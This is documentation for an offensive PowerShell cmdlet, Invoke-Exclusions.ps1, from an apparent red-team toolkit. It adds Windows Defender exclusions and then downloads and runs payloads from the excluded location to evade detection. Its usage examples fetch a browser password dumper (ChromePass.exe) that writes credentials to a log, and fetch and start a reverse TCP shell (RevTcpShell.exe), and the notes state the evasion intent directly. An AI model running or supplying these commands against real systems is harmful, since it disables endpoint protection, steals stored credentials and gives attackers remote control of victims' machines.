 ## Invoke-Exclusions.ps1

|Cmdlet name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-Exclusions](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WD-Bypass/Invoke-Exclusions.ps1)|Add exclusions to Defender (Set-MpPreference) + Download\Execute -uri 'cmdlet'<br />Exclusion values accepted : **'ExclusionPath, ExclusionProcess, ExclusionExtension'**|Administrator|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-ExclusionsUrl.png)<br />[Screenshot3](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-ExclusionsUrlMimikarz.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Get-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Set-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Remove-MpPreference")
```

```powershell
#Get full module information
Get-help .\Invoke-Exclusions.ps1 -Full

#Get Exclusions List (terminal)
.\Invoke-Exclusions.ps1 -action "query"

#Get Exclusions List (GUI)
.\Invoke-Exclusions.ps1 -action "query" -Gui "true"


#Set-MpPreference -ExclusionProcess "cmd" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionProcess" -Exclude "cmd"

#Set-MpPreference -ExclusionExtension "exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionExtension" -Exclude "exe"

#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionPath" -Exclude "$Env:TMP"

#Set-MpPreference -ExclusionIpAddress "192.168.1.72" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionIpAddress" -Exclude "192.168.1.72"


## CmdLet Function: Add exclusion Path + Download URI PE + Execute PE
# 1º - Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
# 2º - Iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -OutFile "$Env:TMP\ChromePass.exe"
# 3º - cd $Env:TMP; .\ChromePass.exe /stext credentials.log
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"

## CmdLet Function: Add exclusion Path + Download URI PE + Execute PE
# 1º - Set-MpPreference -ExclusionIpAddress "192.168.1.72" -Force
# 2º - Iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/.../RevTcpShell.exe" -OutFile "$Env:TMP\RevTcpShell.exe"
# 3º - cd $Env:TMP; Start-Process RevTcpShell.exe
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionIpAddress" -Exclude "192.168.1.72" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/..../RevTcpShell.exe" 


#Remove-MpPreference -ExclusionProcess "cmd" Force
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionProcess" -Exclude "cmd"
```

<br />

### Final Notes
```powershell
[DESCRIPTION]
This cmdlet allow users to manage ( query, create, delete ) Windows
Defender exclusions: ExclusionExtension, ExclusionProcess, ExclusionPath.
The files covered by the exclusion definition will be excluded from Windows
Defender Real-time protection, monitoring, Scheduled scans, On-demand scans.

[NOTES]
This cmdlet in addition to add\remove exclusions from windows defender
allows its users to download binaries (PE) that are being detected by the
anti-virus and run it through the exclusion definition (bypassing detection)
Use a comma (,) to split multiple exclusion entrys ( -exclude 'exe,vbs' )

[PARAMETER URI LIMITATIONS]
This function creates the exclusion on Defender then downloads the -uri 'script\PE'
to -exclude 'directory' and finally executes the script.ps1 OR the binary (PE) from
the exclusion directory with the intent to evade detection ( download + execution )

But 'execution' of payloads under -uri invocation is advised to be only under
-type parameter 'ExclusionPath' because is exclusion is more comprehensive
```
